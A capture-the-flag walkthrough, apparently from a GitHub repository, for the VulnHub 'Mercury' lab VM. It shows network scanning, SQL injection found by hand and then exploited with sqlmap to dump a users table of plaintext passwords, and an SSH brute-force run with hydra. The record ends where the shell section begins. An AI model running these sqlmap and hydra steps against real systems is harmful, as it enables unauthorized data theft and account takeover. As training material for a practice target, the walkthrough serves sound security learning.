 # Mercury

### 1.Get VM IP

```bash
root@kali:arp-scan -I eth0 -l                           
Interface: eth0, type: EN10MB, MAC: 08:00:27:c4:58:52, IPv4: 192.168.56.140
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:40	(Unknown: locally administered)
192.168.56.100	08:00:27:74:2d:92	PCS Systemtechnik GmbH
192.168.56.139	08:00:27:63:63:96	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.139`, let's enumerate it.


### 2.Enumeration

```bash
root@kali: nmap -v -sC -sV 192.168.56.139
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c8:24:ea:2a:2b:f1:3c:fa:16:94:65:bd:c7:9b:6c:29 (RSA)
|   256 e8:08:a1:8e:7d:5a:bc:5c:66:16:48:24:57:0d:fa:b8 (ECDSA)
|_  256 2f:18:7e:10:54:f7:b9:17:a2:11:1d:8f:b3:30:a5:2a (ED25519)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

let's check the web page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e2898a20-816f-48cd-bd7c-10524855fb58)

there is nothing interesting, but if you navigate to a random page like `/test`, you will see an error page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f0a68882-ead8-4bd5-8324-0f2ac7757258)

on this page, you can see an extra directory `mercuryfacts/` that we are allowed to visit, so let's go there :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/9851de80-4203-40cf-b53a-e36d15db1380)

click on `Load a fact` and you will see the following page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/491a854f-ad01-414c-8b29-0c0dffaf7e8f)

if you play with the last digit and make it to `2` or `3` or ... you will see new messages :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b95d504a-3591-4645-9716-c919779e3fbc)

this ca be a sign that these pages are getting called from the database by the number of the fact so adding a single quote :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/6f5115c8-e4a6-4259-992c-4ab5ce76391b)


yes there is a SQL injection here, the rest is easy as we put the URL into sqlmap :

```bash
root@kali: sqlmap -u http://192.168.56.139:8080/mercuryfacts/1 --batch --dbs

[07:28:50] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury


root@kali: sqlmap -u http://192.168.56.139:8080/mercuryfacts/1 --batch -D mercury --tables
[07:29:31] [INFO] fetching tables for database: 'mercury'
Database: mercury
[2 tables]
+-------+
| facts |
| users |
+-------+


root@kali: sqlmap -u http://192.168.56.139:8080/mercuryfacts/1 --batch -D mercury -T users --dump
[07:30:03] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

### 3.Gaining Shell

Now that we have usernames and passwords we need to brute-force the SSH service, so save all the usernames into a file called `username.txt`

and all the passwords into a file called `password.txt` and use `hydra` to check the credentials :

```bash
root@kali: hydra -L users.txt -P passwords.txt -e nsr 192.168.56.139 ssh -t 10
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b1f06b18-dc40-4101-b08b-8dcfbab6872b)



